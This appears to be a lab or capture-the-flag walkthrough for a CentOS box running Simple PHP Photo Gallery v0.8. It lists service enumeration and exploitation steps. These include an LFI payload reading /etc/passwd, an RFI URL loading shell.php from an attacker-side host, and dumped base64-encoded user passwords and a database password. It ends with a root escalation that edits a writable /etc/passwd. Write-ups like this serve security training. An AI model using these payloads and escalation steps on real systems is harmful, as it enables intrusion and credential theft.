 # Box IP: 192.168.244.58

---

## System Info
- **OS/Tech:** CentOS 7, Apache 2.4.6 (httpd), PHP 5.4.16  
- **App:** Simple PHP Photo Gallery v0.8

---

## Credentials
- **User:** `michael`  
- **Password:** `HockSydneyCertify123`

---

##  Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service          | Version / Notes                              |
| ------- | ----- | ---------------- | --------------------------------------------- |
| **21**  | open  | ftp              | vsftpd 3.0.2 – anonymous YES (no interesting files) |
| **22**  | open  | ssh              | OpenSSH 7.4                                   |
| **80**  | open  | http             | Apache 2.4.6 + PHP 5.4.16                     |
| **111** | open  | rpcbind          | RPC #100000 (no RCP creds known)              |
| **139** | open  | netbios-ssn      | Samba smbd 3.x–4.x (enum4linux → users)       |
| **445** | open  | netbios-ssn      | Samba smbd (same workgroup)                  |
| **3306**| open  | mysql            | MySQL (no anonymous access)                   |
| **33060**|open  | mysqlx           | MySQL X Protocol                             |

---

##  Exploits & Findings

### 1. LFI
```text
http://192.168.244.58/image.php?img=../../../etc/passwd%00
```
michael	1000	1000	/home/michael	/bin/bash 

### 2.RFI
http://192.168.244.58/image.php?img=http://192.168.45.183/shell.php

### 3. Database Credentials 
SELECT * FROM users;

+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+

-- DB password: MalapropDoffUtilize1337

etc/passwd is writable by michael....

cp /etc/passwd /tmp/passwd.bak
sed -i 's/^michael:x:1000:1000:/michael:x:0:0:/' /etc/passwd
grep '^michael:' /etc/passwd
su  michael
whoami  # → root



